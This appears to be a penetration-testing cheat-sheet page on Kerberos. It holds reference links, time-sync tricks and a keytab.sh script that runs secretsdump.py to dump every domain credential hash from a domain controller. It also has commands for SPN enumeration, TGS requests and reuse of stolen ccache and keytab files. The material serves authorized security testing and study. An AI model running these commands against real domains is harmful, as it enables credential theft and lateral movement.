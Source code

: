 # Kerberos

- [https://www.roguelynn.com/words/explain-like-im-5-kerberos/](https://www.roguelynn.com/words/explain-like-im-5-kerberos/)
- [https://vbscrub.com/2020/05/13/kerberos-protocol-explained/](https://vbscrub.com/2020/05/13/kerberos-protocol-explained/)
- [https://www.tarlogic.com/en/blog/how-kerberos-works/](https://www.tarlogic.com/en/blog/how-kerberos-works/)
- [https://www.tarlogic.com/en/blog/how-to-attack-kerberos/](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)
- [https://www.tarlogic.com/en/blog/kerberos-iii-how-does-delegation-work/](https://www.tarlogic.com/en/blog/kerberos-iii-how-does-delegation-work/)
- [https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
- [https://habr.com/ru/company/tomhunter/blog/507140/](https://habr.com/ru/company/tomhunter/blog/507140/)
- [https://habr.com/ru/company/tomhunter/blog/509290/](https://habr.com/ru/company/tomhunter/blog/509290/)
- [https://ardent101.github.io/posts/kerberos_theory/](https://ardent101.github.io/posts/kerberos_theory/)
- [https://ardent101.github.io/posts/kerberos_general_attacks/](https://ardent101.github.io/posts/kerberos_general_attacks/)
- [https://github.com/OtterHacker/Cerbere](https://github.com/OtterHacker/Cerbere)

{% embed url="https://youtu.be/qZPvgoUzCdI" %}




## Synchronize Time

Using `ntpdate`:

```
$ sudo apt install ntpdate -y
$ sudo ntpdate <DC_IP>
```

Using `faketime`:

```
$ sudo apt install faketime -y
$ faketime '1970-01-01 00:00:00' /bin/date
```




## Decrypt KRB5 Traffic

- [https://dirkjanm.io/active-directory-forest-trusts-part-two-trust-transitivity/](https://dirkjanm.io/active-directory-forest-trusts-part-two-trust-transitivity/)
- [https://medium.com/tenable-techblog/decrypt-encrypted-stub-data-in-wireshark-deb132c076e7](https://medium.com/tenable-techblog/decrypt-encrypted-stub-data-in-wireshark-deb132c076e7)

{% code title="keytab.sh" %}
```bash
REALM='MEGACORP.LOCAL'
secretsdump.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local -just-dc | tee secretsdump.out

# ---

cat secretsdump.out | grep aad3b435 | awk -F: '{print "    (23, '\''"$4"'\''),"}' > keys
cat secretsdump.out | grep aes256-cts-hmac-sha1-96 | awk -F: '{print "    (18, '\''"$3"'\''),"}' >> keys
curl -sSL https://github.com/dirkjanm/forest-trust-tools/raw/6bfeb990f0db8a580afe5cbba3cce1bf959a7fb8/keytab.py > keytab.py
awk 'NR <= 112' keytab.py > t
cat keys >> t
awk 'NR >= 118' keytab.py >> t
sed -i "s/TESTSEGMENT.LOCAL/${REALM}/g" t
mv t keytab.py
python3 keytab.py keytab.kt
```
{% endcode %}




## Kerberos on Linux

Check `KRB5CCNAME` environment variable contents:

```
$ env | grep KRB5
```

Request TGT supplying password:

```
$ kinit
$ klist
```

List available SPNs:

```
$ ldapsearch -Y GSSAPI -H ldap://dc1.megacorp.local -D "Administrator@MEGACORP.LOCAL" -W -b "dc=megacorp,dc=local" "servicePrincipalName=*" servicePrincipalName
```

Request TGS for MSSQL service:

```
$ kvno MSSQLSvc/SRV01.megacorp.local:1433
$ klist
```

Re-using keytab files to load and renew a TGT:

```
$ kinit administrator@MEGACORP.LOCAL -k -t /tmp/administrator.keytab
$ klist
$ kinit -R
```

Re-using ccache files:

```
$ sudo chown snovvcrash:snovvcrash /tmp/krb5cc_31337
$ kdestroy
$ export KRB5CCACHE=/tmp/krb5cc_31337
$ klist
```



### FreeIPA

A blog series by [@n0pe_sled](https://medium.com/@n0pe_sled) on attacking FreeIPA:

- [Building a FreeIPA Lab](https://posts.specterops.io/building-a-freeipa-lab-17f3f52cd8d9)
- [Attacking FreeIPA — Part I Authentication](https://posts.specterops.io/attacking-freeipa-part-i-authentication-77e73d837d6a)
- [Attacking FreeIPA — Part II Enumeration](https://posts.specterops.io/attacking-freeipa-part-ii-enumeration-ad27224371e1)
- [Attacking FreeIPA — Part III: Finding A Path](https://posts.specterops.io/attacking-freeipa-part-iii-finding-a-path-677405b5b95e)
- [Attacking FreeIPA — Part IV: CVE-2020–10747](https://posts.specterops.io/attacking-freeipa-part-iv-cve-2020-10747-7c373a1bf66b)
